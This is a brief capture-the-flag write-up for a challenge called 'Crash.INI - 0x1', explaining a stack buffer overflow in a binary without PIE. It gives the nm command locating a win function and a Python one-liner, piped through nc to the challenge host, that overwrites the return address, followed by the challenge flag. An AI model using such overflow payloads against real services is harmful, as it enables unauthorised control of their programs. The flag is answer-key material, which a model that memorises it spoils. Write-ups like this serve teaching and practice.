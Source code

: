 # Crash.INI - 0x1

## Write-up
PIE is disabled, so the `daddy_i_learned_to_hijack_the_program_s_control_flow` function  
will be at a predictable address on every execution. We can overwrite the return address  
with that function's address.

```bash
$ nm crashini | grep daddy
0000000000401dc1 T daddy_i_learned_to_hijack_the_program_s_control_flow
$ python2.7 -c 'print(b"A"*(128 + 8) + __import__("struct").pack("Q", 0x0000000000401dc1))' | nc $HOST $PORT
```

## Flag
`shellmates{oh__s0_th3_r3turn_4ddr3ss_1s_st0r3d_0n_th3_st4ck_hein?}`
